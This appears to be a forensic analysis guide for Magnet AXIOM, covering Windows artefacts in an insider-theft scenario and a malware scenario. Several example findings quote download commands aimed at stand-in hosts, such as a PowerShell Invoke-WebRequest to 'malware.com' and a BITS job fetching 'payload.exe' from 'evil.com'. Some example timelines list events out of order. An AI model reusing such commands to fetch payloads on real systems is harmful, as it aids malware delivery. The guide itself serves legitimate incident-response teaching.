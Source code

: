# Axiom Cyber Examiner

#### **Getting Started in AXIOM Examine** Objective: Orient yourself to the Windows evidence.

* #### Open Case: Load your processed Windows.mfdb file.
* Dashboard: Check artefact categories—e.g., “Windows Artefacts” (Registry, Prefetch), “PowerShell,” “Event Logs”—to scope the data.
* Key Views:
  * Artefact Explorer: Parsed data (e.g., USB history, Amcache).
  * File System Explorer: Raw files (C:\Windows\System32).
  * Timeline: Chronological events.
  * Connections: Entity relationships.

Example: Dashboard shows 1,000+ “Event Log” hits, 50 “PowerShell” entries, and 10 “USB Device” connections—prioritise accordingly.&#x20;

#### Core Analysis Workflow (Windows-Specific) Objective: Investigate systematically with Windows artefacts.

#### Step 1: Define Goals

* Example: “Did ‘jdoe’ exfiltrate ‘Q1Report.docx’ via USB on 15 January 2025?”

Step 2: Explore Key Windows Artefacts

* Windows Registry:
  * Location: Artefact Explorer > Windows > Registry.
  * Hives:
    * H<mark style="color:green;">KLM\SYSTEM\CurrentControlSet\Enum\USBSTOR</mark>: USB details (serial, connect time).
    * <mark style="color:green;">HKU\\\[SID]\Software\Microsoft\Windows\CurrentVersion\Explorer\RecentDocs</mark>: Recent files.
    * <mark style="color:green;">HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run</mark>: Autorun persistence.
  * Example: <mark style="color:green;">USBSTOR</mark> shows serial “1234ABCD” connected “2025-01-15 14:32:21 UTC.”
* Event Logs:
  * Location: Artefact Explorer > Windows > Event Logs.
  * Logs:
    * Security.evtx: Logons (ID 4624), failures (ID 4625).
    * System.evtx: Startups (ID 6005), service installs (ID 7045).
    * Application.evtx: App crashes or anomalies.
  * Example: ID 4624 logs “jdoe” at “14:30:00 UTC.”
* Prefetch Files:
  * Location: Artefact Explorer > Windows > Prefetch.
  * Purpose: Programme execution evidence.
  * Example: “WINRAR.EXE-1A2B3C4D.pf” ran “14:35:10 UTC,” referencing “Q1Report.zip.”
* LNK Files and Jump Lists:
  * Location: Artefact Explorer > Windows > LNK Files, Jump Lists.
  * Purpose: File access history.
  * Example: “Q1Report.docx.lnk” accessed “14:34:50 UTC.”
* Shimcache:
  * Location: Artefact Explorer > Windows > Shimcache.
  * Purpose: Historical executions.
  * Example: “cmd.exe” ran “14:36:00 UTC.”
* PowerShell Logs:
  * Location: Artefact Explorer > Windows > PowerShell.
  * Logs: Event ID 4104 (Script Block Logging), 4103 (command execution).
  * Example: “Invoke-WebRequest -Uri ‘[http://malware.com’”](http://malware.xn--com-to0aua) logged at “14:38:00 UTC.”
* Amcache:
  * Location: Artefact Explorer > Windows > Amcache.
  * Purpose: Tracks executable metadata (SHA1, install time).
  * Example: “notepad.exe” SHA1 matches a known dropper, executed “14:37:00 UTC.”
* BITS:
  * Location: Artefact Explorer > Windows > BITS Jobs.
  * Purpose: Background file transfers (e.g., malware downloads).
  * Example: BITS job downloaded “payload.exe” from “[http://evil.com”](http://evil.xn--com-9o0a) at “14:39:00 UTC.”
* WMI:
  * Location: Artefact Explorer > Windows > WMI.
  * Purpose: Persistence or remote execution (e.g., WMI Event Consumers).
  * Example: “WmiPrvSE.exe” triggered “cmd.exe” at “14:40:00 UTC.”
* SRUM:
  * Location: Artefact Explorer > Windows > SRUM.
  * Purpose: App usage and network activity.
  * Example: “winrar.exe” used 50MB at “14:35:00 UTC.”

Step 3: Build a Timeline

* Steps: Timeline view > Filter “2025-01-15 14:00:00 - 15:00:00 UTC” > Add “Event Logs,” “Prefetch,” “LNK,” "USB," and “PowerShell.”
* Example: Logon (14:30) → File access (14:34) → WinRAR (14:35) → USB (14:32).

Step 4: Correlate with Connections

* Steps: Tag “jdoe” and “1234ABCD” as Profiles > Map links (e.g., “jdoe” to “Q1Report.zip” to USB).
* Example: Visual confirms “jdoe” tied to file and USB.

#### Advanced Windows Analysis TechniquesObjective: Tackle complex or obscured evidence.

* Keyword Search:
  * Steps: Search > “Q1Report” or regex (e.g., \b\[A-Za-z0-9]{8}\b for serials).
  * Example: Hits in LNK, RecentDocs, and carved “Q1Report.zip.”
* File System Deep Dive:
  * Steps: File System Explorer > C:\Windows\System32\winevt\Logs or unallocated space.
  * Example: Recover deleted “cmd.exe-5D6E7F8G.pf” from unallocated space.
* Memory Analysis:
  * Steps: Artefact Explorer > Memory > Check processes and network connections.
  * Example: “cmd.exe” spawned “ftp.exe” at “14:37:00 UTC.”
* AXIOM Power Features:
  * Custom Artefacts: Define new parsers (e.g., for custom app logs) via AXIOM’s Artefact Definition tool.
  * Scripting: Batch tag artefacts with Python (e.g., all “PowerShell” hits as “suspicious”).
  * Example: Script tags 50 PowerShell commands in 10 seconds.
* Edge Cases:
  * Wiped Logs: Pivot to MFT (File System Explorer > $MFT) for file timestamps or memory for process history.
    * Example: MFT shows “Q1Report.zip” last modified “14:35:15 UTC” despite cleared logs.
  * Encrypted Drives: If BitLocker-locked, use the recovery key (if available) during acquisition; otherwise, analyse memory or cloud sync logs.
    * Example: OneDrive log shows “Q1Report.zip” uploaded “14:45:00 UTC.”

#### Interpreting Windows Evidence

* Context: USB + LNK + Prefetch = likely exfiltration.
  * Example: “Q1Report.zip” (14:35) + USB (14:32) suggests data theft.
* False Positives: Ignore “svchost.exe” Prefetch unless tied to user actions.
* Anomalies: Off-hours logins (e.g., 2:00 AM on 10 January) or rare tools (e.g., “psexec.exe”).

#### Reporting Windows Findings

* Tagging: Tag “Exfiltration Evidence” (USB, LNK).
* Visuals: Export Timeline PNG (14:30-14:40).
* Report: PDF with artefacts, notes, and raw logs (e.g., “ID 4624, jdoe, 14:30”).
* Portable Case: Share.mfc for collaboration.

#### Scenario Examples

* Insider Theft:
  * Findings: Logon (14:30)→ “Q1Report.docx” (14:34)→ WinRAR (14:35)→ USB “1234ABCD” (14:32).
  * Conclusion: “jdoe” exfiltrated data.
* Malware Infection:
  * Findings: BITS job downloads “payload.exe” (14:39) → Amcache logs execution (14:40) → PowerShell “Invoke-WebRequest” (14:38) → WMI persistence (14:40) → SRUM shows network spike (14:41).
  * Timeline:
    * 14:38: PowerShell downloads malware.
    * 14:39: BITS completes the transfer.
    * 14:40: WMI triggers execution.
  * Conclusion: Malware deployed via the web and persisted via WMI.

#### External Tool Integration

* Volatility: Export memory dump (File System Explorer) > Analyse with PSList or NetScan.
  * Example: “ftp.exe” connected to “192.168.1.100” confirms exfiltration.
* RegRipper: Export hives (e.g., SYSTEM) > Parse for deeper USB or Run key details.
  * Example: RegRipper finds “payload.exe” in Run key missed by AXIOM.

#### Validation

* Cross-Check: Registry USB times vs. raw USBSTOR hive.
* Raw Data: Export Security.evtx for external parsing (e.g., Event Log Explorer).

#### Windows-Specific Tips

* Filters: Exclude “SYSTEM” logons unless relevant.
* Registry Pivot: From USBSTOR to MountedDevices for drive letters.
* Batch Export: Multi-select Event Logs to CSV.

***
